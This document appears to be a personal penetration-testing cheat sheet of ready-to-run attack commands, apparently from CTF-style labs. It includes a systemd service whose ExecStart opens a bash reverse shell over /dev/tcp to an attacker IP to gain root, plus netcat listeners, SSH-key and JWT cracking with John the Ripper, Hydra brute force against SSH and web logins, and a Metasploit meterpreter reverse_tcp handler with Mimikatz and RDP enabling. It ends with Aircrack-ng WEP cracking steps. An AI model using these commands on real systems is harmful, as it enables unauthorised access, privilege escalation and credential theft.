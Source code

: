 # 3 Attack Tools

## Reverse Shell

### Netcat

Install ```sudo apt install ncat```

Start netcat listening on e.g. port 1234: ```nc -lvnp 1234```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

## Create service

Create 0xfab1.service in /temp/

``` txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker:  ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

``` sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Passwords

- Crunch: create custom wordlists

### John the ripper

John the Ripper is a tool for offline password cracking

Crack keyfile PW

``` sh
gzip -d /usr/share/wordlists/rockyou.txt.gz
/usr/share/john/ssh2john.py ssh-key-kay.txt > forjohn.txt
john forjohn.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Convert a JWT to a format John the Ripper can understand with [jwt2john](https://github.com/Sjord/jwtcrack):

 ``` sh
wget --quiet -O /usr/local/bin/jwt2john.py "https://raw.githubusercontent.com/Sjord/jwtcrack/master/jwt2john.py"
sed -i '1s;^;#!/usr/bin/env python\n;' /usr/local/bin/jwt2john.py
chmod +x /usr/local/bin/jwt2john.py
```

### Hydra

SSH PW Brute Force user "user"

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```

Web Form Brute Force:

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.233.243 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
```

## Metasploit

### Config

Start PostgreSQL und Metasploit on boot

 ``` sh
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

 ``` sh
service postgresql start
service metasploit start
```

### Start msfconsole

Init Metaspoit and start the console

``` sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

``` sh
db_nmap -sV 10.10.201.217
```

Scan Target

``` sh
hosts
services
vulns
```

### Use Exploit

This is an example using an exploit with Metasploit:

``` sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

``` sh
getprivs
sysinfo
getuid
```

Start Mimikatz

``` sh
load kiwi
```

Try different exploits

``` sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

``` sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```

## WiFi

### Aircrack-NG suite

Send Kismet dump

 ``` sh
aircrack-ng -b 00:1E:58:B4:24:F4 /root/Kismet.dump
```

Preparing The WIFI Card for Airodump

 ``` sh
modprobe -r iwl3945
modprobe ipwraw
airmon-ng start [device]
airodump-ng [device]
airodump-ng -c [channel] -w [network.out] –bssid [bssid] [device]
aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:66 -e [essid] [device]
airplay-ng -3 -b [bssid] -h 00:11:22:33:44:66 [device]
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [bssid] -h 00:11:22:33:44:66 [device]
aircrack-ng -n 128 -b [bssid] [filename]-01.cap
```

### Kismet

Config [Kismet](https://www.kismetwireless.net)

- Config this file ```/usr/local/etc/kismet.conf```
- And add a sourece e.g. ```source=ipw2200,eth1,Intel```

Commands

- ss (type)
- L (choose WIFI+Channel)
- i (Info -> copy BSSID)

### Fluxion

Clone of the target Wi-Fi network.

